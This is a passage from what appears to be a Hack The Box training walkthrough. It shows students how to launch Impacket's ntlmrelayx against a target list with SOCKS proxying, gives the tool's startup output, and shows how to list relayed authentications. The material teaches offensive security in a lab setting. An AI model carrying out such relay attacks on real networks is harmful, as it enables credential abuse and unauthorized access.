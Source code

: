 Subsequently, students need to start `ntlmrelayx` using `sudo` in the other terminal window. The tool has to be started by the students utilizing the `-tf` (TargetFile) option and specifying the target file (`targets.txt`), `-smb2support` option providing `SMBv2` support for hosts that require it, and the `-socks` option which starts a SOCKS proxy while holding the relayed authentication and keeping it active, providing the capability of abuse using different tools.

Code: shell

```shell
sudo ntlmrelayx.py -tf ./targets.txt -smb2support -socks
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf ./targets.txt -smb2support -socks
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] SOCKS proxy started. Listening at port 1080
[*] IMAPS Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> 
```

Students will notice that a few connections have been successfully relayed, and using the `socks` command within `ntlmrelayx` will allow them to see the relayed authentications based on users, and to which machine the authentication is being relayed.

Code: shell

```shell
socks
```

